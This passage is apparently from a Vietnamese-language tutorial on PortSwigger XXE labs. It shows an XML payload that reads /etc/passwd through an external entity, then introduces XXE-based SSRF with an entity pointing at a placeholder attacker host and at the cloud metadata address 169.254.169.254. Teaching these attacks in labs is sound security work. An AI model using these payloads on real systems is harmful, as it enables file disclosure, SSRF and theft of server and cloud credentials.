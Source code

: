 Ta tiến hành XXE bằng payload sau:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
  <productId>
    1
    &xxe;
  </productId>
  <storeId>1</storeId>
</stockCheck>
```
Dòng ``<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>`` để đọc file /etc/passwd và dùng ``&xxe;`` để xuất nội dung file ra respone\
Kết quả:

![lab1](./img/lab1-reuslt.png)

## 5. Exploiting XXE to perform SSRF attacks
Dạng tấn công này sẽ lợi dụng XXE để tạo request đến website khác bên ngoài, thực hiện tấn công SSRF. Các thông tin nhạy cảm của sever có thể được gửi đi qua website của attacker

Ta dùng câu khai báo sau để thực hiện request tới website khác bên ngoài:
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://attacker-website.com"> ]>
```

#### Ví dụ : Lab2 XXE injection portswigger

Ở lab này vẫn là trang check số lượng hàng, nhưng web yêu cầu ta gửi request đến ``http://169.254.169.254/`` và sẽ nhận về dữ liệu về các instance
